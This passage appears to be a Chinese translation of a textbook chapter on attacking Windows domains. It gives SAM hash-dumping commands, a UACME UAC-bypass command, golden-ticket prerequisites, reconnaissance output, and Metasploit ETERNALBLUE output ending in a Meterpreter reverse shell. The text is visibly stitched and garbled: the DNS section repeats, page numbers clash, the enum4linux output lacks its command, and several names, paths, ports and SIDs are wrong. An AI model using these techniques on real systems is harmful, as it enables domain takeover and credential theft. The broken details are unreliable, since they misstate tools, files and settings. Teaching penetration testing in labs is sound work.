

域控制器处理用户对域的身份验证，例如用户登录工作站，或远程人员从世界另一端访问资源。由于其重要性，域控制器通常是复制的，这样当主域控制器（`PDC`）故障时，备用域控制器（`BDC`）可以无缝接管。通常，你会发现 `Windows` 企业网络中包含多个支持公司域和森林的域控制器。对于黑客来说，尝试入侵客户网络的域控制器是一项常见的挑战任务。一旦你控制了域控制器，你也将控制它管理的任何资源。黑入此类系统将让攻击者获得企业网络的完全控制权，因此这些系统通常会经过加固，并针对已知攻击进行更新。

你需要首先攻破其他系统，例如通过未修复的远程代码执行（`RCE`）漏洞访问工作站，或者通过利用具有 `Microsoft SQL Server` 后端的 `Web` 服务器上的 `SQL` 注入漏洞。

获取此类系统的访问权限后，你需要从该系统中识别有用信息（如密码、密码哈希值、安全证书、用户名和配置详情），帮助你移动到另一台机器，以便收集更多信息，最终允许你访问并入侵域控制器。这种系统之间的移动被称为*横向移动*（lateral movement）。它不仅限于 `Windows` 环境，尽管它是针对此类系统过程中的重要部分。由于 `Windows` 域的单点登录功能以及它们使用的协议，当你拥有了特权域账户后，在网络资源和系统之间移动非常简单。

## 用户、组与权限

在 `Windows` 网络中，存在用户和组，这与 `UNIX` 类系统的用户和组并无二。当用户登录时，他们通常登录到本地机器或计算机所属的域。每个用户都是一个或多个组的成员。组被分配了不同的权限和权利，这些权利随后会传递给组中的用户。

`Windows` 没有内置的 `root` 用户，但有一个可以认为是等同的管理员（`Administrator`）账户。每台本地机器都有一个管理员账户，但还有一个加入域并拥有权限的域管理员账户。拥有此类账户的有效凭据将允许你控制整个域，而不仅仅是单台机器。你的攻击目标将是获取桌面或服务器本地管理员账户的访问权限，并尝试访问任何域管理员账户。企业管理员（`Enterprise Administrator`）拥有森林内的权限，并可以访问森林中的任何域。因此，这是任何网络入侵都梦寐以求的访问级别！

你会发现组及其内部的用户被授予了过度权限，允许成员访问比他们本应被允许的更多的资源。你还会发现像 `UNIX` 和 `Linux` 一样，某些文件配置错误，允许比需要更多的用户进行写入访问。这些都是黑客利用的绝佳机会。

## 密码哈希

访问 `Windows` 用户的密码哈希所需的过程与你目前看到的不同（而且不止一个过程！）。打开 `/etc/shadow` 文件是不可能的，因为哈希值是以安全的方式存储的，必须从主机的安全账户管理器（`SAM`）中提取。`SAM` 是 `Windows` 注册表中也可以访问的数据库，它是 `Windows` 用于存储系统设置的另一个数据库，并受启动密钥的保护，如果要获得有意义的结果，必须提取该密钥。

使用如 `SAMdump2`（`Kali Linux` 自带）之类的工具并访问 `Windows` 磁盘上的 `C:\Windows\system32\config` 和 `C:\Windows\system32\config` 文件，你可以使用命令 `samdump SYSTEM SAM` 导出哈希。如果你在具有管理员权限的 `Windows` 提示符下，可以使用 `save HKLM:SAM temp` 和 `save HKLM:SYSTEM C:\temp\SYSTEM` 命令创建所需文件的副本。这将从注册表中导出 `SAM` 和系统配置单元，并存储在 `C` 盘的 `Temp` 文件夹中，你可以将其作为参数传递给 `SAMdump2` 等工具。

一种名为 `SAM Lock Tool` 的绝对密key 技术提供了 `SAM` 数据库的进一步加密和启动密钥的保护。它要求用户在机器首次启动时输入密码以解密用户数据库并允许身份验证。它使用 `128` 位 `RC4` 加密保护 `SAM` 数据库，但由于该功能的滥用，它现在已被 `Bitocker` 等全盘加密技术所取代，后者提供了更强的安全性。

`Windows` 域控制器上的 `nds.dit` 数据库也可以使用不同于上述的方法提取，这些方法通常针对工作站部署。你有必要练习一种从 `Windows` 系统中提取凭据的方法。存在多种方法来备份 `Windows AD` 信息和 `nds.dit` 文件，例如使用 `Microsoft` 卷影复制服务（`VSS`），它依赖于 `Windows Server` 存在并启用的备份功能。`PwDumpX`、`PwDump5`、`PwDump6`、`PwDump7` 等工具各不相同。我们建议你进行实验并阅读相关资料。

## 杀毒软件

杀毒（`AV`）软件通常安装在机器上。现代操作系统现在包含了 `Windows Defender`，这是一种内置的安全软件，旨在保护用户免受病毒和勒索软件的影响。杀毒软件的主要作用是为计算机用户提供保障。如果用户下载文件、接收邮件附件或通过插入的设备（如 `USB` 驱动器）获取文件，杀毒软件将对其进行扫描，如果包含恶意软件，将向用户显示警告。要让传统的杀毒产品生效，恶意软件必须已经被杀毒软件识别。自动更新杀毒软件允许从中心下载最新的恶意软件特征。`Windows` 引入了用户账户控制，现在意味着即使是具有管理员权限的用户在尝试执行特权任务也会收到提示。

## 绕过用户账户控制

用户账户控制（`UAC`）是 `Windows` 内置的一种机制，当用户以管理员权限运行程序时，会向用户显示弹出对话框。背后的想法是用户必须物理出现在机器前点击“确定”按钮并允许程序以提升的权限运行。通常在安装新程序时需要权限。有许多方法可以绕过此功能——事实上，绕过 `UAC`（用户账户控制）的方法多到让人们开始规避它。

一个名为 `UACME` (github.com/hfirefox/UACME) 的工具包含了 `59` 种方法且不断增加。一旦被特权用户调用，`UAC` 确实会停止所有以管理员权限运行的进程。这为黑客增加了障碍，但面对任何障碍，你都可以跳越它（或者绕过它、推倒它、爬过它等），无需担心。

如果你下载了 `UACME`，将需要将源代码组件编译到你正在构建的二进制文件中。你可以使用 `Visual Studio Community` (visualstudio.microsoft.com/vs/community) 完成此操作。在 `Source` 目录下打开 `uacme.sln` 文件，并在 `Visual Studio` 中“生成解决方案”（Build Solution）。这将产生可执行文件，包括 `Akagi64.exe`，我们将使用它来绕过 `UAC` 提示请求。`UACME` 要求你通过数字键选择想要使用的方法，并提供一个无需 `UAC` 提示即可执行的命令。

在工具仓库中可以找到所有方法的完整列表及其对应的 `Windows` 版本。运行此命令的用户必须已经拥有管理员权限，因为此操作不会利用主机来获取权限——它仅作为绕过 `UAC` 提升提示的实用程序。

在 `Windows 10` 桌面面上，你可以运行命令在无需任何形式的提升提示的情况下访问 `Windows` 外壳。我们使用“56”作为键，因为已知这在 `Windows 10` 上是可利用的且目前尚未修复，尽管在你读到此部分内容时它可能已经发生了变化。这对程序的效果与赋予其管理员权限相同，例如通过右键点击程序图标并选择“以管理员身份运行”，从而允许你执行特权操作，如删除或添加用户。

```
C:\UACME\Akagi64.exe 56 cmd.exe
```

# 设置 Windows 虚拟机

尽管 `Windows` 是闭源的专有软件，但与其他免费提供的开源操作系统相比，它的练习难度仅稍大一点。你现在可能已经熟悉下载 `Linux` 发行版的 `ISO` 镜像并安装到虚拟机（`VM`）中的思路，你对 `Windows` 也可以同样的操作。目前，微软提供了大量的软件评估版本，你可以免费下载并进行评估（当然，是从安全的角度来看）。这些版本在一段时间后会过期，但这不会影响你使用它们进行目标练习。前往 www.microsoft.com/en-us/evalcenter/try 并下载 `Windows Server 2019` 的评估版（如果你愿意，也可以选择其他版本，由于升级成本高昂，仍有许多机构在使用 `Windows Server 2012` 和 `Windows Server 2016`）。然后，你可以设置一个虚拟机并将 `ISO` 安装到其中。


你可以安装单个实例，也可以在物理宿主机有足够内存的情况下，在虚拟机中安装多个实例。要构建一个运行的 Windows 网络，你应该至少运行一个桌面版本和一个服务器版本（并将服务器配置为 AD）。可以通过图形用户界面（GUI）添加域控制器和其他角色，而 Windows 擅长通过这一过程手动处理这些工作。

安装最新版本的 Windows Server 会让你看到一个界面，类似于图 13.4 所示。这实际上是一个用于设置服务器和安装不同角色（或服务）的向导。构建设置过程将让你学习到大量关于 Windows 网络的知识，并让你对安全角度可能犯的错误有所了解。尝试向你的域添加用户并赋予他们不同的权限，你就能理解域管理员是如何犯错的。



图 13.4：Windows Server 2019

> 注意：在第 9 章“文件与文件共享”中，你接触到了 Samba，它可以用于在网络上共享更多文件。Samba 实现了一系列 Windows 服务器技术，可以用于设置 AD DC（域控制器），这意味着你不需要设置 Windows 机器即可练习某些 Windows 攻击技术。请见下一页有关如何使用 Samba 设置 AD DC 的详情：wiki.samba.org/index.php/Setting_up_Samba_as_an_Active_Directory_Domain_Controller

# Windows 攻击工具包

你到为止遇到的同样的通用型黑客工具——Nmap、Searchscript、Metasploit、Netcat 等——都可以像通常一样用于 Windows 主机，并从你的 Kali 虚拟机中运行。你在第 9 章看到的工具在探测 NetBIOS、服务器消息块 (SMB) 和远程调用 (RPC) 时也将特别有用。请记住，Windows 使用它自己的 RPC 协议 Microsoft RPC (MS-RPC)，它是分布式计算环境 (DCE) RPC 系统的修改版本。尽管如此，这种形式的 RPC 有不同的引导，如基于 TCP 的 DCE/RPC 和基于 HTTP 的 DCE/RPC。正如你可以想象的，有很多定制的 Windows 攻击工具，例如：

- 穷举工具 (`enumlinux`、`enum.exe` 和 `RIDenum`)
- 域映射工具 (`BloodHound`)
- Windows 外壳工具 (`PowerShell`、`PowerTools`、`PwnShell` 和 `Empire`)
- .NET 应用 (`Mimikatz`)
- 密码哈希转储工具 (`Mimikatz`、`Samdump`、`Cain and Abel`)
- 哈希值传递工具 (`impacket`)
- 渗透后工具 (`Metasploit` 和 `Empire`)

记住，黑客与系统管理员非常相似，只是没有授权。如果你打算攻击 Windows，就需要熟悉可用的工具。Hacker House 汇集了一些常用工具二进制包。与所有二进制文件一样，从网上下载时要谨慎。

www.hackerbook.com/files/Windows_Tradecraft.zip

# Windows 与 NSA

当几个国家安全局 (NSA) 的工具泄露时，人们发现他们一直在使用自己的 Windows 攻击框架进行操作。许多此类利用工具已进入他人手中。以下是泄露工具的部分选择：

- `FUZZBUNCH`：基于 Python 和动态链接库 (DLL) 的利用框架
- `DANDERSPRITZ`：一种用于间谍活动的远程访问工具，具有清理日志隐藏攻击轨迹的功能
- `DOUBLEPULSAR`：用于 DLL 注入的内核负载
- `ETERNALBLUE`
- `ETERNALROMANCE`
- `ETERNALCHAMPION`
- `ETERNSYNERGY`

> 警告：在使用泄露工具时需要极其谨慎。由 NSA 这样拥有大量资源的组织开发的工具可能会在其软件中内置追踪功能。在使用时，工具可能会向其真实所有者报告，或引入未知的恶意软件。使用此类工具可能会无意中使自己的系统或系统受到攻击，并可能带来进一步的法律后果。在没有网络访问的虚拟环境中使用工具，并使用像 `Wireshark` 这样的数据包分析工具，是减少工具可能造成的损害的方法之一，并为你提供分析的机会。

# 扫描 Windows Server

Nmap 也可以像你目前所看到的那样用于扫描 Windows 主机。以下代码是对一个运行 Windows Server 2008 的虚拟机的基础端口扫描。这将让你对域控制器上运行的服务有一个大致了解。虽然这现在看起来可能过时了，但你将获得类似的结果，这适用于配置了组策略或安装了 IIS 服务后的较后版本的 Windows Server。

```
Nmap scan report for 192.168.56.104
Host is up (0.00049s latency).
Not shown: 65535 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid|
|_bind.version: Microsoft DNS 6.1.7601 (IDB1446A)
80/tcp    open  http          Microsoft IIS httpd 7.5
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Windows netbios-ssn
389/tcp   open  ldap          Microsoft Active Directory LDAP
443/tcp   open  ssl/?
445/tcp   open  microsoft-ds  Windows Server 2008 R2 Standard 7601
464/tcp   open  kpasswd5
593/tcp   open  nacmn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-bt-server?
5900/tcp  open  vnc           VNC (protocol 3.8)
9389/tcp  open  mc-mnf        .NET Message Framing
4701/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UHP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  nacmn_http    Microsoft Windows RPC over HTTP 1.0
49161/tcp open  msrpc         Microsoft Windows RPC
49163/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
49186/tcp open  msrpc         Microsoft Windows RPC
49187/tcp open  msrpc         Microsoft Windows RPC
```

在本章中，我们将使用一些旧软件来解释漏洞，但如果这些技术与不安全的系统相关联，许多技术也适用于新的系统。Windows 的“阿喀琉斯之踵”在于它对同一网域内的其他系统非常信任。Windows 主机的安全性完全取决于它所连接的受信外部网络资源，无论该资源是 ICS 环境中运行 Windows XP 的旧式桌面电脑，还是其他过时的主机。一旦网络上的某一个系统被破解，通常就可以从系统到系统进行扩散，这导致了许多灾难性攻击在 Microsoft 平台上变得频发。

Nmap 结果表明，Windows Server 托管在许多关键端口和服务上，你可以看到这些：这些是 Kerberos 服务（`kerberos-sec` 和 `kpasswd`）；Microsoft RPC（`msrpc`），它与你已经探索过的开放网络计算 (ON) RPC 类似（TCP 端口 595 正在监听 RPC over HTTP，这与 XML RPC 相当）；NetBIOS 服务（`netbios-ssn`）；Microsoft Directory 服务/SMB（`microsoft-ds`）以及 `ms-wbt-server` 服务，后者是远程桌面协议（RDP，也称为终端服务）。上一个屏幕中显示的其他服务并非 Microsoft 特有。还要记住，某些服务（如 SMB 和 NetBIOS 服务）可以使用 Samba 运行在类 Unix 服务器上。你将在扫描结果的末尾看到许多被 MRPC 使用的端口。

上一个图中还显示了其他服务，它们适用于任何主机——DNS、HTTP、HTTPS 和 LDAP 服务。如果你设置了 Windows Server 2019 实验室并分配了域控制器、DNS 服务器（DC 需要）和 Web 服务器角色，那么你将看到类似下面的默认安装的端口扫描：

```
Nmap report for 192.168.56.109
Host is up (0.00071 latency).
Not shown: 994 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

# Microsoft DNS

上一个扫描结果中显示的第一个开放端口是 53 端口，你现在应该知道它是用于 DNS 的。你应该尝试在这里使用 Dig，就像对任何其他 DNS 主机或服务做的那样。针对提供 DNS 服务的 Windows Server 上使用 `dig @TargetIP version.bind txt` 命令，可能会返回一些有用信息，如下：

```
;;>>HEADER<< opcode: QUERY, status: NOERROR, id: 33661
;; flags: aa rd rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;;version.bind. CH TXT

;; ANSWER SECTION:
;;version.bind. 14765 IN TXT "Microsoft 6.1.7601 (IDB1446A)"
```


;;>>HEADER<< opcode: QUERY, status: NOERROR, id: 33661
;; flags: aa rd rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;;version.bind.

CH                TXT

;; ANSWER SECTION:
;;version.bind.

14765 IN TXT "Microsoft 6.1.7601 (IDB1446A)"

# 第 13 章 » Microsoft Windows 493

上一个扫描结果中显示的第一个开放端口是 53 端口，你现在应该知道它是用于 DNS 的。你应该尝试在这里使用 Dig，就像对任何其他 DNS 主机或服务做的那样。针对提供 DNS 服务的 Windows Server 上使用 `dig @TargetIP version.bind txt` 命令，可能会返回一些有用信息，如下：

```
;;>>HEADER<< opcode: QUERY, status: NOERROR, id: 33661
;; flags: aa rd rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available
```

```
;; QUESTION SECTION:
;;version.bind.

CH                TXT
```

```
;; ANSWER SECTION:
;;version.bind.

14765 IN TXT "Microsoft 6.1.7601 (IDB1446A)"
```

# 金质票 (Golden Tickets)

Kerberos 自 2000 年以来一直是 Windows 使用的默认验证方法，通常用于内部网络或域。微软通过其功能扩展了该协议。当客户端使用 Kerberos 对域进行身份验证时，系统会向客户端发放一个 TGT，该票据可用于未来对域内服务的请求。Kerberos 需要一个受信任的中心服务器（不一定非是域控制器）来验证新用户并颁发票据。此外，客户端到服务器的连接也必须是信任的。票据被设置为在一段时间后过期，以便其无法无限期使用，例如当用户的权限被撤销时。

在 Windows 上，Kerberos 使用一个 `krbtgt` 用户，这可能会导致灾难性的后果。Kerberos 中存在一些关键的安全漏洞，你可能想要进一步探索，例如 `MS14-068`，该漏洞允许在存在漏洞的 Kerberos 服务中进行权限提升。

2014 年，在年度安全盛会 Black Hat USA 上，一场向与会者展示的报告详细阐述了 Kerberos 的漏洞。特别是，“`golden ticket`（金质票）一词被引入。金质票是一种多年内不过期的（或攻击者确定的任何长度）的 TGT，它允许攻击者重新获得对域的访问权限，即使没有其他进入途径且账户密码已重置。即使所有漏洞已修复且用户凭据已重置，仍然可以使用金质票请求对用户账户的访问。

我们已经多次提到过为什么客户端（client）从不是一个好主意。Kerberos 是一种无状态协议，票据本身包含了检查用户是否应该能够登录的所有信息。这包括用户密码是否过期或用户属于哪些组等信息。所有内容都经过了加密，通常客户端或用户无法解密自己的票据。Kerberos 在 Windows 中的实现方式导致了当呈现一个具有无限或极长生命周期的票据时，没有服务器来检查该票据是否是近期生成的。金质票最好的点是，攻击者可以为他们访问的账户生成自己的票据。这种票据可以有效多年，作为该账户的一种后门持续使用。通过金质票进行身份验证，这使得攻击者能够在密码更改的情况下再次进入账户。

要做到这一点，需要以下三点：

- 密钥分配中心 (KDC) 密钥 (`krbtgt`)，使用 RC4 (NTLM) 或 AES 进行加密
- 域的安全标识符 (SID)（`whoami` 和 `psgetid`）
- 域名

# 第 13 章 · Microsoft Windows 473

注意 `whoami` 命令的作用方式与 `id` 命令类似。它将打印当前用户的用户名。

有了这些信息，你可以生成你想要的任何 Kerberos 票据。当然，一个明显的选择是 Administrator 账户（RID: 500）。使用此账户，你可以将票据有效性的结束时间设置为未来的某个点（多年以后）。

在 2014 年 Black Hat USA 演讲之前，几个拥有 Windows 域的组织注意到他们被恶意黑客入侵，尽管联系了取证团队、将攻击者踢出网络并重置了账户凭据，他们几乎立即再次被入侵。机器已经重新恢复，攻击者仍然能够获得访问。得益于金质票，这是成为可能的。攻击者发现了一种新的后门以及以及众所周知的金质票。银质票（Silver tickets）是专注于 Kerberos 的攻击者的另一种选择。你可以在 `security.org/tp211` 找到相关内容。

另一种名为“Kerberoasting”的现代攻击允许攻击者通过使用 TGT 获取凭据，TGT 也可以从宿主机内存中抓取。这些票据用于请求服务票据并泄露信息。通过利用 Kerberos 中对 RC4 的使用，可以进行在线暴力破解攻击，有时会暴露协助权限提升的权限密钥材料。

# KERBEROS 破解

注意，还有其他影响非微软系统的 Kerberos 漏洞可以探索。这些使用了 Kerberos 协议的不同实现。你可以在这里找到影响 MIT Kerberos 的漏洞详细信息：

`www.cved.com/product/61/MIT-Kerberos.html?vendor_id=42`

`CVE-2017-8495`，也称为“Orpheus Lyre”，是一个影响微软和类 Unix 系统的漏洞。你可以在 `www.orpheus-lyre.info` 读取关于它的信息。

较新的漏洞 `CVE-2019-0734` 影响微软系统，并允许在此处描述的权限提升：

`nvd.nist.gov/vuln/detail/CVE-2019-0734`

# NetBIOS

当识别到存在 NetBIOS 时记得使用 `nbtscan`。对运行 Windows Server 2008 R2 的虚拟机运行不带参数的 `nbtscan` 会显示以下信息：

| IP 地址 | NetBIOS 名称 | 服务器 | 用户 | MAC 地址 |
|---|---|---|---|---|
| 192.168.56.110 | WIN2008R2 | <server> | <unknown> | 08:00:27:a2:2e:a8 |

使用命令 `nbtscan -v <TargetIP>` 将产生额外信息。

注意扫描结果中的单词 `GROUP` 是域的同义词。

| 名称 | 服务 | 类型 |
|---|---|---|
| WIN208R2 | <00> | UNIQUE |
| HACKERHOUSE | <00> | GROUP |
| HACKERHOUSE | <00> | GROUP |
| WIN208R2 | <00> | UNIQUE |
| WIN208R2 | 08:00:27:a2:2e:a8 | UNIQUE |

运行了三个脚本来检查各个补丁是否存在：`MS10-005`、`MS10-061` 和 `MS17-010`。Nmap 认为缺少 `MS17-010`，并给出了相应的 CVE 标识符（`CVE-2017-0143`）以及若干处参考文献。

## 微软安全公告 (MICROSOFT SECURITY BULLETINS)

直到 2018 年底，微软都会发布安全公告，以解决其软件中发现的安全漏洞。每份公告都有一个编号，并带有 CVE 编号，例如 `MS14-068`。通常，每个公告对应一个或多个 CVE 编号。你可以在 `docs.microsoft.com/en-us/security-updates` 查看安全公告。通常每个公告都配有相应的补丁，如果系统缺少补丁，它几乎肯定会存在漏洞，你可以尝试进行漏洞利用。

有关影响微软产品的漏洞的最新信息，您应该访问位于 `www.microsoft.com/en-us/marc` 的微软安全响应中心。微软使用通用漏洞报告框架（CVRF，这是一种基于 XML 的语言，用于标准化的漏洞报告）来传递有关漏洞的信息。旧版安全公告和最新更新均如此。你可以在 `www.icasi.org/cvfrf` 阅读 CVRF，除了微软之外的其他机构在使用它。

## 永恒之蓝 (ETERNALBLUE)

ETERNALBLUE 是美国国家安全局（NSA）对其的一种漏洞利用程序的命名，该程序用于攻击有漏洞的 SMB 服务。可能 NSA 在 `CVE-2017-0143` 被 CVE 系统记录很久之前就在利用它了。事实上，只有在补丁发布后，由于 NSA 工具在网络上泄露，该漏洞才成为公众的的。由于补丁尚未广泛发布，导致管理员没有机会安装，恶意黑客看到了此机会，该漏洞被一种名为 WannaCry 的勒索软件在全球范围内进行利用。这影响了 Windows 机器（与我们在第 9 章中检查的 SambaCry 漏洞不同，其破坏极其广泛且影响深远）。大量使用 Windows 的大公司受影响严重。最终的补丁和关键级安全公告 `MS17-010` 解决了以下漏洞：

- `CVE-2017-0143`
- `CVE-2017-0144`
- `CVE-2017-0145`
- `CVE-2017-0146`
- `CVE-2017-0147`
- `CVE-2017-0148`

`CVE-2017-0147` 是一个信息披露漏洞，而其他问题都是 RCE（远程代码执行）漏洞。即使在补丁发布后，勒索软件继续影响人们，导致他们无法访问自己的文件。

要测试机器是否存在漏洞，你可以不仅仅检查缺失的补丁。例如，你可以使用 Metasploit 中的 `ms17_010_eternalblue` 利用程序，这是移植到 Metasploit 框架的相同利用程序。建议你在有漏洞机器上尝试这种攻击（尝试下载 Windows Server 2008 R2 的评估版并启用 SMBv1——这是一种仍然可以的遗留协议，在最新的 Windows Server 2019 上也可以启用）。此特定的利用程序有详细的报告，请记得使用 `info`。

运行此利用程序可能会导致目标服务器偶尔崩溃，因为它覆盖了远程主机的内存。你可能需要在成功之前运行多次。如果利用成功，将打开一个 Meterpreter 会话，它提供类似 shell 的界面。在 Metasploit 中，该利用程序被归于 Shadow Brokers 和 Equation Group（Equation Group 是美国国家安全局目标行动部门的名称）。

以下代码显示了如果利用程序成功运行你可能会看到的内容。（我们删除了每行的 IP 地址和端口号，并清理了输出以提高可读性。）注意成功消息 `= WIN = =`，这是 Meterpreter 使用的有效负载，这就是为什么你在输出末尾看到 Meterpreter session 1 opened。

```
msf exploit(windows/ms17_010_eternalblue) > run
[*] Started TCP handler on 192.168.56.112:4444
[*] Host is VULNERABLE to MS17-010!
[*] Windows Server 2008 R2 Standard 7601 Service Pack 1 (64-bit)
[*] Connecting to target host...
[*] Connection established for exploitation.
[*] Target set valid for OS indicated by SMB reply
[*] CORE raw buffer dump (51 bytes)
[*] 0x00000000 57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32 Windows Server 2
[*] 0x00000010 30 30 38 20 52 53 74 61 6e 64 61 72 64 20 008 R2 Standard
[*] 0x00000020 37 36 30 31 20 53 65 72 76 69 63 50 61 63 6b 7601 Service Pack
[*] 0x00000030 6b 20 31 k 1
[*] Target arch selected valid for arch indicated by DCE/RPC reply
[*] Trying exploit with 12 Groom Allocations.
[*] Sending all but last fragment of exploit packet
```

```
[*] Starting non-paging pool grooming
[*] Sending SMBV2 buffers
[*] Closing SMBV1 connection creating free hole adjacent to SMBV2 buffer.
[*] Sending final SMBV2 buffers.
[*] Sending last fragment of exploit packet!
[*] response from exploit packet
[*] ETERNALBLUE overwrite completed successfully (0xC000000D)
[*] Sending egg to corrupted connection.
[*] Triggering free corrupted buffer.
[*] Sending stages (20643 bytes) to 192.168.56.110
[*] Meterpreter session 1 opened (192.168.56.112:4444) -> 192.168.56.110:49318
at 2019-10-16
[*] ETERNALBLUE overwrite completed successfully (0xC000000D)
[*] 
[*] = WIN = =
```

# 第 13 章 ■ Microsoft Windows 481

返回浏览列表错误：`NT_STATUS_REVISION_MISMATCH`

正在重新连接 SMB1 以获取工作组列表。

连接 SMB1 失败，无可用工作组。

尝试在 192.168.56.110 上挂载共享

=======================

192.168.56.110 的密码策略

========================

意外错误：使用 NULL 共享挂载到 192.168.56.110

尝试协议 445/SMB... 协议失败：代码: `0xc0000022` (STATUS_ACCESS_DENIED) 进程请求访问对象但未授予权限。

尝试协议 139/SMB... 协议失败：无法请求名称：192.168.56.110

使用 rpc 获取密码失败

192.168.56.110 上的用户循环（RIDs: 500-550, 1000-1050）

===============================

找到新 SID：`S-1-5-21-28081827-87361857-291337851`

使用 SID `S-1-5-21-150021425-95480422-91967347` 和用户名 '' 枚举用户

- `S-1-5-21-150021425-95480422-91967347` HACKERHOUSE\domain (本地用户)


## SID 枚举结果

- `S-1-5-21-150021425-95480422-91967347` HACKERHOUSE\513 (本地组)
- `S-1-5-21-150021425-95480422-91967347` HACKERHOUSE\krbtgt (本地组)
- `S-1-5-21-150021425-95480422-91967347` 512 Domain Admins (域组)
- `S-1-5-21-150021425-95480422-91967347` 518 Domain Users (域组)
- `S-1-5-21-150021425-95480422-91967347` 516 Domain Guests (域组)
- `S-1-5-21-150021425-95480422-91967347` 515 Domain Computers (域组)
- `S-1-5-21-150021425-95480422-91967347` 514 Domain Controllers (域组)
- `S-1-5-21-150021425-95480422-91967347` 527 Cert Publishers (本地组)
- `S-1-5-21-150021425-95480422-91967347` 518 Schema Admins (域组)
- `S-1-5-21-150021425-95480422-91967347` 519 HACKERHOUSE\Enterprise Admin (域组)
- `S-1-5-21-150021425-95480422-91967347` 521 HACKERHOUSE\Read-only Domain Controllers (域组)
- `S-1-5-21-150021425-95480422-91967347` 1000 HACKERHOUSE\TS Web Access Computers (本地组)
- `S-1-5-21-150021425-95480422-91967347` 1001 HACKERHOUSE\TS Web Access Administrators (本地组)
- `S-1-5-21-001221425-9548452-911396743-1002` HACKERHOUSE\WIN2008R2$ (本地用户)

使用 SID `S-1-5-21-81867827-87363857-291337851` 和登录用户名 `password` 枚举用户：

- `S-1-5-21-81867827-87363857-291337851` 500 WIN2008R2\Administrator (本地用户)
- `S-1-5-21-81867827-87363857-291337851` 500 WIN2008R2\Guest (本地用户)
- `S-1-5-21-81867827-87363857-291337851` 500 WIN2008R2\None (域组)

你通过之前使用 `Nbtscan` 获取的相同 NetBIOS 信息证明了这一点，只是这次有更多细节。你现在可以看到它实际上是一个域主控器和域控制器。它显示了名为 HACKERHOUSE 域的域控制器组，向你表明该机器确实属于该域。你也可以从 `Enum4linux` 看到这是一个文件服务器，且该服务已翻译为 File Server。通过 `Enum4linux` 输出，你可以看到 SID：`S-1-5-21-81867827-87363857-291337851`。这是一个安全标识符 (SID)，在处理域时某些工具需要它。工作站有自己的 SID，用于对本地工作站而不是域进行身份验证。`Enum4linux` 将从 500（管理员帐户，类似于 root 或超级用户）开始遍历每个 RID 并向上进行，暴露用户和他们可能拥有的网络资源。

从这里可以看出，对 Windows 机器进行密码猜测或暴力破解时应小心，因为用户帐户可能会被锁定（阻止你和用户本身使用它们）。你唯一尝试暴力破解的帐户是 Windows 管理员帐户 (RID 500)。在企业设置中，该帐户通常不会因为组策略设置将你锁定在外。

